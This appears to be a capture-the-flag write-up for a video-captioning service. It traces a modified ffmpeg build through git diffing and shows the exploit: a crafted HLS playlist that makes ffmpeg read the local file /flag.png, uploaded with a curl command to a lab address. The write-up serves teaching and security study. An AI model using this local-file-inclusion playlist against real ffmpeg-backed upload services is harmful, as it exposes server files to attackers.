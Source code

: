 # Checking the site

There is a webserver behind the given address. The service is adding a caption to an uploaded video (or image).

![](screenshots/1.png)

Uploading something generates a gif with the caption, like this.

![](workdir/memegen.gif)

# Backend

The backend has a lot of sanitization for the command line arguments, making it hard/impossible to inject anything.

```go
func sanitizeCaption(caption string) string {
	caption = strings.ReplaceAll(caption, "\\", "\\\\\\\\")
	caption = strings.ReplaceAll(caption, "\"", "\\\"")
	// ...
	caption = strings.ReplaceAll(caption, "-", "\\\\\\-")
	caption = strings.ReplaceAll(caption, "_", "\\\\\\_")
	caption = strings.ReplaceAll(caption, " ", "\\\\\\ ")

	return caption
}

func convertVideoToGIF(videoBytes []byte, caption string) ([]byte, error) {
	buf := bytes.NewBuffer(videoBytes)
	out := &bytes.Buffer{}
	err := ffmpeg.Input("pipe:0", ffmpeg.KwArgs{}).
		Output("pipe:1", ffmpeg.KwArgs{"f": "gif", "preset": "ultrafast", "t": "2", "vf": "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=" + caption + ":fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50"}).
		GlobalArgs("-hide_banner").
		GlobalArgs("-loglevel", "error").
		GlobalArgs("-nostats").
		WithTimeout(5 * time.Second).
		WithInput(buf).
		WithOutput(out).
		OverWriteOutput().
		Silent(true).
		Run()

	return out.Bytes(), err
}
```

# Version

Checking the source, it is using a slightly modified [ffmpeg](https://github.com/FFmpeg/FFmpeg) started from the `go` backend server. Based on the changelog, it is based on `ffmpeg` version 7.0.

Using git and diff can be used to find a close release. Making a repo with the current source and the FFmpeg repo as foreign source.

```bash
mkdir /tmp/challenge
tar xf challenge.tar.xz -C /tmp/challenge
cd /tmp/challenge/assets/FFmpeg/
git init
git add -A && git commit -m "Modified FFmpeg"
git remote add foreign https://github.com/FFmpeg/FFmpeg.git
git fetch foreign 
# tags like n7.0 and n7.0.1 are visible for version
```

And searching in it. Looking for the closest changelogs backwards from 7.0.1, then the smallest difference without the tests and Dockerfile.build (not present in foreign, used to build it). 

```bash
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master Changelog); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'); done
git diff e7d2238ad751e4ce4ebc5118af750fd5cc0c5055 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```

![](screenshots/3.png)


Alternatively `git bisect` can be used to look for it as a logarithmic search. 

```bash
git bisect start
git bisect good n7.0
git bisect bad n7.0.1

# Deciding whether it's good or bad based on the number of differences at every step.
git diff --shortstat HEAD master; git diff --shortstat HEAD^1 master 
git bisect good # one of these
git bisect bad # one of these

git bisect reset

git diff 6ab65792ab8e522f5a8a9f432ca11900f35a9d94^1 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```

This results in the same commit, `e7d2238ad751e4ce4ebc5118af750fd5cc0c5055`.

# Diff

This has mainly this 2 difference.

```
libavformat/file.c
-    .default_whitelist   = "crypto,data"
+    .default_whitelist   = "file,pipe,crypto,data"

libavformat/hls.c
-            return AVERROR_INVALIDDATA;
-            return 0;
```

These changes are related to the `hls` file format.

* [https://ffmpeg.org/ffmpeg-formats.html#hls-2](https://ffmpeg.org/ffmpeg-formats.html#hls-2)
* [https://developers.broadpeak.io/docs/foundations-hls](https://developers.broadpeak.io/docs/foundations-hls)

This can be tested locally like this (even with an unmodified ffmpeg binary).

```bash
ffmpeg -allowed_extensions ALL -i include.m3u8 -f gif -preset ultrafast -t 2 -vf "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=MEMEGEN:fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50" memegen.gif
```

# Exploit

After reading through the specs, a malicious [include.m3u8](workdir/include.m3u8) can include the secret `/flag.png`.

```
#EXTM3U
#EXT-X-TARGETDURATION:2
#EXTINF:2,
file:///flag.png
#EXT-X-ENDLIST
```

Uploading the file gives us the [flag](workdir/flag.gif).

![](screenshots/2.png)

Or from console with OCR.

```bash
curl -F "file=@include.m3u8;type=video/anything" http://10.10.2.10:5227/upload -o flag.gif
tesseract flag.gif -
```

# Flag
`CQ24{NEVER_TRUST_RANDOM_SOURCES}`
